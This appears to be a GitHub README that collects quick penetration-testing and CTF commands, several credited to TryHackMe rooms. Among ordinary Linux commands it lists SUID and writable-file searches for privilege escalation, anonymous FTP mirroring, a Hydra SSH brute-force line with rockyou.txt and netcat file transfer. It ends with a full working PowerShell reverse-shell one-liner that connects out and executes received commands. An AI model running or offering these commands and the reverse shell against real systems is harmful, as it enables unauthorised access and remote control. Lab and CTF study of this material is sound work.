 # Quick-and-Dirty-Bash-Scripting
I decided to start collecting all the quick and dirty bash scripts I have created / found on the web during Security Research

# General Syntax / Useful Commands
	• Available shells on the system look in 
	
	/etc/shells    

	• [important files] Users are located in 
	
	/etc/passwd
	
	• [less] System wide crontab
	
	Less /etc/crontab

	• Download all files from ftp Anonymous Login
	wget -m ftp://anonymous:anonymous@<ipaddress>
	
	• [CURL]
	[spoof username and follow all redirects] curl -A "username" -L 10.10.38.4
	
	• [FIND]
	
	[files and directories with user perms] find / -perm -u=s -type f 2>/dev/null
	
	[find all suid files] Find . -perm /4000 or find -perm /4000
	
	[find all files for a specific user ] find / -user <user>
	
	[Find all the SUID/SGID executables] find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
	
	From <https://tryhackme.com/room/linuxprivesc> 
	
	
	
	find - Initiates the "find" command
	
	/ - Searches the whole file system
	
	-perm - searches for files with specific permissions
	
	-u=s - Any of the permission bits mode are set for the file. Symbolic modes are accepted in this form
	
	-type f - Only search for files
	
	2>/dev/null - Suppresses errors
	
	find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
	
	
	• [host http server] Setting up a simple web server in python3
	
	Python3  -m http.server 8000	Or whatever port you prefer 
	Python2 python -m SimpleHTTPServer 8000	

	• Download files from host with Netcat

	Receive on user machine -  nc -l -p 1234 > *file to receive*
	Send from host machine -   nc -w 3 10.2.8.75 1234 < *file to send*
	
	• [openssl] Creating a hash / compliant password hash
	
	 openssl passwd -1 -salt [salt] [password]
	
	• Convert HEX into ascii
	
	echo <hex value> | xxd -r -p
	
	
	• [Hydra] attack on for ssh on smtp server

	hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt 10.10.164.218 ssh -vV
	
	• Secure Copy Protocol 

	scp [filename] [username]@[IP of remote machine ]:/[directory to upload to]

	• SHA1 hash of a file

	sha1sum file8 | awk '{print $1}'
	
	• Find nmap scripts
	
	find /usr/share/nmap/scripts -type f 2>/dev/null | grep (whatever it is you are looking for)
	
	• Stabilize reverse netcat shell with python

	Python3 -c 'import pty;pty.spawn("/bin/bash")'
	
	export TERM=xterm then background shell with Ctrl + Z then in our own terminal we use 
	
	stty raw -echo; fg 
	does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.
	

	
	
	From <https://tryhackme.com/room/linuxstrengthtraining> 
	
	
	• Kibana-log
cat kibana-log.txt | grep -e http://0.0.0.0:[0-9][0-9][0-9][0-9] -o | sort -u
http://0.0.0.0:5601
http://0.0.0.0:9200

	• Windows Reverse shell
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('IP',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

![image](https://github.com/user-attachments/assets/684e7a37-8646-4c7f-97a8-a70920166e85)
